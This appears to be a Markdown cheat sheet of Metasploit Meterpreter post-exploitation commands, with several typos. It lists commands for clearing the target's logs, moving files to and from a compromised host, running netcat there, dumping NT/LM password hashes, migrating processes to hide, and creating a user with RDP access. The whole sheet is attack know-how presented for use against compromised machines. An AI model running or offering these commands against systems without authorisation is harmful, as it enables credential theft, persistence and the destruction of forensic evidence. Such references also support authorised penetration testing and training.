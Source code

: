 # Metasploit Meterpter Shell
This sheet contains commands often issued via a Meterpreter shell. 
## Shell Session Managament
* Use the `background` command to send the shell session into the background.
* Use the `sessions -l` to list the active sessions
* Use `session -i (NUMBER)` to interact with a session of ID (NUMBER)
## Clear Target's Logs
Use `clearev` to clear the target system's logs.
## File Management
* Use `download C:\boot.ini` to download a file from the target
* Use the `upload` command to upload a payload or file to the target system
* Use `pwd` and `cd` to navigation the target's file system
* Use `edit` to open vim with a fie on teh target server
* Use `search` to search  the file system in a `grep -R`, or `find`, style.
## Command Execution
* Use `execute C:\nc.exe` command to execute the command on the file system. 
## SYSTEM Information Gathering
* Use `hashdump` to get the NT/LM hashes from the target system.
* Use `idletime` to display how long the currently logged in user has been idle at the taregt system.
* Use `ipconfig` to get Network Information from the target system.
## Obfuscation
* Use the `migrate` command to migrate the meterpreter shell to another PID. This will inherit the PID's effective User ID.
## Remote Desktop
* Use `run getgui -u (UID) -p (PASSWD)` to create a user and enbale RDP on a compromised machine. 
